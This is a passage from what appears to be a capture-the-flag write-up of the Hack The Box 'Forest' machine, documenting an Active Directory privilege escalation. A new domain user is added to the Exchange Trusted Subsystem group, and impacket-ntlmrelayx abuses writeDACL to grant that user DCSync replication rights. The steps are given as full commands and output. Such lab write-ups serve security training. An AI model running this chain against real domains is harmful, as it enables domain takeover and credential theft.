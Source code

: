 Create a new user and add it to `Exchange Trusted Subsystem` security group. (By default, that group is a member of `Exchange Windows Permissions` security group which has `writeDACL` permission on the domain object of the domain where Exchange was installed.)


```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user scriptkiddie scriptkiddie /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Trusted Subsystem" scriptkiddie /add /domain
The command completed successfully.



Then from my kali screen 1
impacket-ntlmrelayx -t ldap://10.10.10.161 --escalate-user scriptkiddie


From my kali screen 2
└─$ impacket-psexec forest.htb/scriptkiddie:scriptkiddie@10.10.16.9            



my kali screen 1 will say
┌──(kali㉿kali)-[~/HTB/Forest]                              
└─$ impacket-ntlmrelayx -t ldap://10.10.10.161 --escalate-user scriptkiddie
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
                                                            
[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAP loaded..    
[*] Protocol Client LDAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.16.9, attacking target ldap://10.10.10.161
[*] Authenticating against ldap://10.10.10.161 as FOREST.HTB/SCRIPTKIDDIE SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] User privileges found: Create user
[*] User privileges found: Modifying domain ACL
[*] Querying domain security descriptor
[*] Success! User scriptkiddie now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20221203-212806.restore
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!


```
